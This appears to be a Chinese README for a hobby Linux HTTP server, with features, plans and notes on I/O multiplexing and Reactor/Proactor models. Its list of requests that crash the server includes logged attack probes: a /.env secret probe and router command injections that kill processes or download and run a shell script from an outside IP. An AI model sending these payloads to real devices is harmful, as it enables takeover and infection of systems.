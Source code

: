 # MyWeb

## 开发进度

本项目开发了一个基于Linux平台的轻量级HTTP服务器
* 采用了Reactor高并发模型
* 支持Select、Poll、Epoll三种IO复用方式
* 服务器通过状态机解析HTTP请求报文
* 使用自动增长的缓冲区来提升性能稳定性
* 通过WebBench对服务器进行了性能和压力测试，确保了其稳定性和可靠性。

计划：
* 引入MySQL，实现一个注册登录界面
* 处理POST请求
* 定时器
* 日志系统
* 实现Proactor模型
* 消息队列
* 分布式

奇怪的get请求，接收到以后，服务器就会挂，慢慢解决
* GET /.env HTTP/1.0
* GET /portal/redlion HTTP/1.0
* GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=id%3E%60for+pid+in+%2Fproc%2F%5B0-9%5D%2A%2F%3B+do+pid%3D%24%7Bpid%25%2F%7D%3B+pid%3D%24%7Bpid%23%23%2A%2F%7D%3B+exe_path%3D%24%28ls+-l+%2Fproc%2F%24pid%2Fexe+2%3E%2Fdev%2Fnull+%7C+awk+%27%7Bprint+%24NF%7D%27%29%3B+if+%5B%5B+%24exe_path+%3D%3D+%2A%2F+%5D%5D%3B+then+kill+-9+%24pid%3B+fi%3B+done%3B%60 HTTP/1.0
* GET http://www.ys168.com/?0.301155930654163458905783120 HTTP/1.1
* GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60wget+-O-+http%3A%2F%2F154.216.17.31%2Ft%7Csh%3B%60) HTTP/1.0
* HEAD / HTTP/1.0


## 理论基础

1、[三种IO多路复用技术](https://github.com/Dream-ming/Learning_Note/blob/main/%E7%BD%91%E7%BB%9C/Socket/IO%E5%A4%9A%E8%B7%AF%E5%A4%8D%E7%94%A8/README.md)

2、[同步/异步，阻塞/非阻塞]()
### 同步/异步，阻塞/非阻塞
* 同步
  * 指程序完全按照代码序列的顺序执行
* 异步
  * 指程序的执行需要由系统事件驱动
* 半同步半异步模式 (Reactor)
  * 同步线程用于处理客户逻辑
  * 异步线程用于处理I/O事件
  * 异步线程监听到客户请求后，就将其封装成请求对象并插入请求队列中
  * 请求队列将通知某个工作在同步模式的工作线程来读取并处理该请求对象
* 半同步半反应堆模式 (Proactor)
  * 主线程充当异步线程，负责监听所有 socket 的读写事件
  * 若有新的连接到来，主线程接收，并往 epoll 内核事件表中注册该事件
  * 若有读写事件发生，主线程从 socket 上接收数据，并将其封装成请求对象，插入请求队列当中
  * 所有工作线程睡眠在请求队列上，竞争处理请求队列上的任务

### HTTP 报文格式
